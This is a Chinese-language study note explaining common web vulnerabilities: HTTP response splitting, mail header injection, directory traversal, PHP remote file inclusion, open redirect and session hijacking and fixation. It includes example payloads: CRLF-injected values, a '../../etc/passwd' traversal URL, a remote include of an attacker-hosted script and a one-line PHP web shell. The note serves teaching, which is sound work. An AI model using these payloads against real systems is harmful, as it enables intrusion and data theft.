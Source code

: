 **HTTP相应截断攻击**：通过两个连续的%0D%0A%0D%0A，并排插入后就可以伪造body。本质上还是首部注入攻击的一种。

如：Set-Cookie：UID=%0D%0A%0D%0A我是攻击者，伪造网页<!--

将之前的页面对应的首部字段和主体部分注释了。

**邮件首部注入攻击**：攻击者通过向邮件首部To或Subject内任意添加非法内容发起攻击。

如：攻击者将如下数据作为邮件地址发起请求。%0D%0A代表换行符，之后就可Bcc给追加发送。

使用两个连续的换行符就可能篡改文本内容发送

```powershell
bob@hackr.jp%0D%0ABcc:user@example.com
bob@hackr.jp%0D%0A%0D%0ATest Message
```

**目录遍历攻击**：通过查询字段指定某个文件名，再绕过文件读取指定文件。

```html
http://eample.com/read.php?log=0401.log
攻击者设置如下字段发起请求，就可以访问passwd文件了
http://eample.com/read.php?log=../../etc/passwd
```

**远程文件包含漏洞**：指当部分脚本内容需要从其他文件读入时，攻击者利用指定外部服务器的URL充当依赖文件，让脚本读取后，就可运行任意脚本的攻击，主要是PHP的漏洞。

如：

```bash
原URL
http://exa.com/foo.php?mod=news.php
脚本如下
$modname = $-GET['mod'];
include($modname);
攻击者URL发送
http://exa.com/foo.php?mod=http://hackr.jp/cmd.php&cmd=1s
攻击者http://hackr.jp/cmd.php脚本,执行了Web服务器文件及目录信息的ls命令
<? system($_GET['cmd']) ?>
```

### 设计或设置引发的漏洞

**强制浏览**：如文件目录，推测文件名文件目录，备份文件(.cgi，.bak)，经认证才可显示的文件（如URL图片等）

**不正确的错误消息处理**：不要在浏览器抛出详细异常，会给攻击者机会。（如，该账号已经注册过，攻击者就知道改账号注册过，从而对该账号进行破解等，应提示未登陆失败，认证错误等模糊字样）

**开放重定向**：跳转时url被攻击者替换，钓鱼网站

```powershell
如
http://example.com/?redirect=http://hackr.jp
```

**Session管理漏洞**：攻击者通过某种手段拿到了用户的SessionId，非法使用此id伪装用户来攻击。

sessionId获取途径：非正规的生成发发推测SessionId；窃听或XSS攻击盗取；通过Session固定攻击强行获取。

如：用户认证过的SID存入Cookie中，攻击者通过XSS，设置脚本调用document.cookie窃取Cookie信息，再将用户的SID放入自己Cookie中伪装成用户。

**固定Session攻击**：强制用户使用攻击者设置的SessionId，属于被动攻击。
